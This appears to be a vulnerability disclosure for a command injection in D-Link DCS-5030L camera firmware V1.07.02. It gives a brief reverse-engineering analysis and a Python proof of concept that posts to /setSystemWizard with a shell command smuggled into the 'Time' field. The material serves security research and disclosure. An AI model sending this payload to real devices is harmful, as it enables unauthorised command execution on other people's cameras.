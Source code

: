 # command injection

## D-LINK DCS-5030L

version: V1.07.02

## Description:

There is a command injection in alphapd/sub_43545C

## Source:

you may download it from : [legacyfiles.us.dlink.com - /DCS-5030L/REVA/FIRMWARE/](http://legacyfiles.us.dlink.com/DCS-5030L/REVA/FIRMWARE/)

## Analyse:

![](1.png)

If v13 equal to zero and v36 equal 1, get into. Look into websGetVarCheck ,we could know that it will return 0 when the keyword's value is null.

![](2.png)

If DateTimeMode's value equal '1' ,finally will call doSystem,causes command injection via parameter v38

## POC

```
url = "http://192.168.1.13/setSystemWizard"
headers = {
    'Host': '192.168.1.13',
    'Authorization': 'Basic base64(admin:password)',
    'Connection': 'close',
    'Content-Type': 'application/x-www-form-urlencoded'
}
data = {
    'ReplySuccessPage':'advanced.htm',
    'ReplyErrorPage':'errradv.htm',
    'Time':';ls > /tmp/1;',
    'DateTimeMode':'1',
    'ConfigReboot':'No'
}
r = requests.post(url, data=data,headers=headers)
```
